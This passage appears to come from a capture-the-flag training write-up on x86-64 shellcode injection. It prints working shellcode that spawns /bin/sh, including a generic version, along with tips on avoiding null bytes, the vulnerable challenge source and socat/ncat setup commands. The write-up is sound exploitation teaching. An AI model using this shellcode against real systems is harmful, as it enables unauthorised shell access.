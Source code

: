 Note that since the code of the binary sets rsp to zero, when the program jumps to our shellcode and we push things on the stack, the execution fails. We first need to move the stack in the middle of the memory page allocated with memmap, which is done in the first three lines of the shellcode, and then we can execute our shellcode.

Which will output our shellcode:

    \x48\x89\xC3\x48\x83\xC3\x40\x48\x89\xDC\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xDB\x53\x48\x89\xE6\x48\x89\xE2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05

**Note (zeros)** that zeros in the exploits needs to be avoided is the input is read with a scanf function.

**Note (char array as sycall argument)** that we need to put a pointer to a zero to terminate the array of arguments of the execv function, which means that we need to put a pointer to a zero in the `rsi` register (since the function writes those registers in this order: `rax`, `rdi`, `rsi`).

**Note (rax register)** - the `rax` register is usually used for function return values.

**Note** - remember to use `objdump`

**Note** - general purpose shellcode to spawn a shell:

```
"\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xDB\x53\x48\x89\xE6\x48\x89\xE2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05"
```

After flagging we can get the source code of the binary from the server:

```c
int main() {
    void *data;
    data = mmap(0, 0x1000, 7, 0x22, -1, 0);
    read(0, data, 0x200);
    register long rax __asm__("rax") = data;
    reset_register();
    asm("jmp %rax");
    return 0;
}

int _start() {
    main();
    exit(0);
}
```

### Debugging environment setup

1. socat is used to redirect stdin/stdout to a socket. After launching it:
   
   ```sh
   socat TCP-LISTEN:4000,reuseaddr,fork EXEC:"./<BINARY>"
   ```
   
2. We can `ncat` to the binary of the challenge:
   
   ```shell
   ncat training.jinblack.it <PORT>
   ```
   